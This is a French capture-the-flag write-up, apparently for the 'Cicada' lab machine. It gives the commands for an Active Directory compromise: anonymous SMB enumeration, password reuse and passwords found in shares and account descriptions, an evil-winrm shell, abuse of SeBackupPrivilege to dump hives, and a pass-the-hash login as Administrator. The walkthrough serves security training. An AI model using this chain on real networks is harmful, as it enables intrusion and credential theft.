








Premier réflexe sur une cible Active Directory exposant SMB : lister les partages accessibles, y compris en session anonyme.
smbclient -L //cicada.htb/

Le partage HR est accessible sans authentification (session nulle) :
smbclient -N //cicada.htb/HR
Un fichier présent sur ce partage contient un mot de passe par défaut communiqué à l'ensemble des employés :

Cicada$M6Corpb*@Lp#nZp!8.Il reste à trouver un compte utilisateur valide pour le tester (probable réutilisation en tant que mot de passe par défaut du domaine).Le mot de passe par défaut est testé sur un compte identifié (michael.wrightson), ce qui permet une énumération authentifiée du domaine :
enum4linux-ng -A -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.196.205

L'énumération du domaine révèle un compte david.orelious, dont le mot de passe est trouvé dans la description du compte (pratique courante mais risquée en AD) :
david.orelious / aRt$Lp#7t*VQ!3Ce compte donne accès à un nouveau partage, DEV :
smbclient -U david.orelious //cicada.htb/DEV
Un fichier du partage DEV expose à son tour de nouveaux credentials, cette fois pour le compte emily.oscars :

emily.oscars / Q!3@Lp#M6b*7t*VtCe compte permet d'obtenir un shell distant via WinRM :
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

Une fois le shell obtenu, l'énumération des privilèges du compte emily.oscars révèle un privilège Windows particulièrement puissant : SeBackupPrivilege.

Ce privilège est exploité pour sauvegarder les ruches nécessaires à l'extraction des secrets locaux/domaine :

Les fichiers récupérés sont ensuite analysés avec pypykatz pour en extraire le hash NTLM du compte Administrator :

Le hash récupéré permet une authentification directe par Pass-the-Hash, sans connaître le mot de passe en clair :
evil-winrm -i cicada.htb -u Administrator -H "2b87e7c93a3e8a0ea4a581937016f341" # rooted